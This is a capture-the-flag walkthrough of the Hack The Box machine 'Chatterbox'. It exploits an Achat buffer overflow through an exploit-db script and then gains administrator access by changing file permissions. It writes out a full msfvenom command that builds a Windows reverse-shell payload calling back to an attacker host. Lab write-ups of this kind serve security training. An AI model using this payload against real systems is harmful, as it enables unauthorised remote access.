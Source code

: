 # Chatterbox

## Gaining Access

Nmap scan:

<figure><img src="../../../.gitbook/assets/image (12).png" alt=""><figcaption></figcaption></figure>

Port 9256 was a rather unusual port to be open.

### Achat

Researching a bit about this port led me to this post:

{% embed url="https://www.speedguide.net/port.php?port=9256" %}

So this port had a vulnerable software on it that is vulnerable to a Remote BOF exploit. We can use an exploit from exploit-db for this:

{% embed url="https://www.exploit-db.com/exploits/36025" %}

Again, we would need to replace the shellcode with a reverse shell one. We can do so like this:

{% code overflow="wrap" %}
```bash
msfvenom -a x86 --platform Windows -p windows/shell_reverse_tcp LHOST=10.10.16.5 LPORT=4444 -e x86/unicode_mixed -b '\x00\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff'
```
{% endcode %}

Then, we can run the script and a shell would pop on our listener port.

<figure><img src="../../../.gitbook/assets/image (3) (3).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

### Directory Misconfig

When I ran WinPEASx64 on this machine, there was a lot of indication that we had AllAccess to the administrator's desktop.&#x20;

<figure><img src="../../../.gitbook/assets/image (42).png" alt=""><figcaption></figcaption></figure>

However, we cannot read the root flag for some reason.

<figure><img src="../../../.gitbook/assets/image (7) (5).png" alt=""><figcaption></figcaption></figure>

We can check the permissions using `icacls`.&#x20;

<figure><img src="../../../.gitbook/assets/image (1).png" alt=""><figcaption></figcaption></figure>

So we the user have Full Control over the Desktop (that's what (F) means), but the flag has been configured like so. To cirumvent this, we can grant ourselves the permission to read the files.

<figure><img src="../../../.gitbook/assets/image (11).png" alt=""><figcaption></figcaption></figure>

Then, we can read the root flag.
